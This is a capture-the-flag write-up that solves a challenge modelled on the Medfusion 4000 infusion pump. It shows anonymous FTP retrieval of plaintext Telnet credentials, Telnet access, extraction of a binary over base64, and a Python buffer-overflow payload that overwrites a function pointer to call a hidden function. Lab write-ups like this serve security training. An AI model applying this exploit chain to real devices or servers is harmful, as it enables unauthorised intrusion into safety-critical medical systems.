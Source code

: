 # Step 1

Read [Remote Code Execution on the Smiths Medical Medfusion 4000](https://github.com/sgayou/medfusion-4000-research/blob/master/doc/README.md).

Understand you need to ftp. Use `anonymous` account and `passive` mode.

```
$ ftp 34.79.161.43
Connected to 34.79.161.43
220 RTCS Ready
Name (34.79.161.43:axelle): anonymous
331 Looking up password
Password:
230 Login successful
Remote system type is Unix.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (34,140,103,157,117,48).
150 Opening ASCII mode data connection.
-rw-r--r-- 1 root root 211 Oct 21 09:43 CONFIG.XML
226 Directory send OK
ftp> get CONFIG.XML
local: CONFIG.XML remote: CONFIG.XML
227 Entering Passive Mode (34,140,103,157,117,48).
150 Opening data connection for RETR.
WARNING! 8 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
211 bytes received in 0.00 secs (1.5479 MB/s)
```

In `CONFIG.XML`, read Telnet credentials:

```xml
<?xml version="1.0"?>
<Medfusion3600Configuration>
  <TelnetInterface>
    <Port>23</Port>
    <Username>medfusion</Username>
    <Password>chu_ph0wn</Password>
 </TelnetInterface>
</Medfusion3600Configuration>
```

Connect via Telnet:

```
$ telnet  34.79.161.43
Trying 34.79.161.43...
Connected to 34.79.161.43.
Escape character is '^]'.
RTCS v2.96.00 Telnet server

Welcome to the Medfusion 4000 Configuration Interface


medfusion login: medfusion
Password: 
Linux medfusion 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-1 (2021-06-10) x86_64
 
4000>ls
copy_of_drugserver  flag1.txt  test.sh
4000>cat flag1.txt
ph0wn{so_you_are_r00t_step1_yo!}
```

# Step 2

There is a script `./test.sh`:

```
4000>./test.sh
Testing therapy...
therapy is at 0x7fe750000b60, f is at 0x7fe750000ba0 (diff=64) - heading to fp=0x401551
----- INFUSION PUMP THERAPY CONFIG ----
-              Aspirin: 41 mL
----------------------------------------
```

This script calls `/usr/bin/mds`, which is a default script also mentioned by the Remote Code Execution doc. It is a shell script which connects to a remote drugserver on port 7777.

There are 3 commands:

1. therapy
2. secret
3. help

Obviously, we need to get access to the `secret ` command.
The program provides us with memory addresses + we have a copy of the remote executable in `/home/medfusion`. We probably have to exploit it.

We need to retrieve the executable. Over Telnet, there is no file transfer.
So, we can use base64 encoding.

```
4000>base64 copy_of_drugserver
```

And then, on the remote end: `base64 -d drugserver.copy > drugserver`.
The file is an ELF x86-64 executable.

```
$ file drugserver
drugserver: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b935eaef8396248c3c5eb438e0e85847f9992720, for GNU/Linux 3.2.0, not stripped
```

We write an exploit for it. See `exploit.py`. The issue is that the therapy identifier variable overflows to a function pointer used to call this or that command. We overflow so that `secret()` is called.

Now, we need to do the same, but on the infusion pump.
Fortunately, python3 is installed.


```python
$ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> payload=b'A'*64
>>> payload = payload + b'\xbe\x19\x40\x00'
>>> import socket
>>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> s.connect(('drugserver', 7777))
>>> s.sendall(b'therapy '+payload)
>>> data = s.recv(1024)
>>> print(data)
b'therapy is at 0x7fe750000d40, f is at 0x7fe750000d80 (diff=64) - heading to fp=0x40199e\nThis is the Secret Therapy ID: 0d1b344e5b{152c4e50222c4f601b2c4f5b182c3f591837}'
>>> s.sendall(b'therapy 0d1b344e5b{152c4e50222c4f601b2c4f5b182c3f591837}')
>>> data = s.recv(1024)
>>> print(data.decode())
therapy is at 0x7fe750000d40, f is at 0x7fe750000d80 (diff=64) - heading to fp=0x401551
----- INFUSION PUMP THERAPY CONFIG ----
-          Paracetamol: 43 mL
-              Heparin: 18 mL
-                0mega: 29 mL
-              Wynzora: 12 mL
-              Nasonex: 16 mL
{
-        Bromocriptine: 42 mL
-            Estradiol: 21 mL
-              Wynzora: 38 mL
-              Aspirin: 17 mL
-              Relafen: 50 mL
-            Estradiol: 02 mL
-            +Solupred: 20 mL
-              Topamax: 37 mL
-              Heparin: 12 mL
-            Estradiol: 47 mL
-            +Solupred: 38 mL
-              Nasonex: 14 mL
-            Estradiol: 47 mL
-            Estradiol: 42 mL
-        Desloratadine: 49 mL
-            Lidocaine: 49 mL
-            Estradiol: 29 mL
-            Singulair: 40 mL
}
----------------------------------------
```

The solution should be easy to find, as there are some `{` and `}`: the first letter of each medicine. `PH0WN{BEWARE+THE+NEEDLES}`.
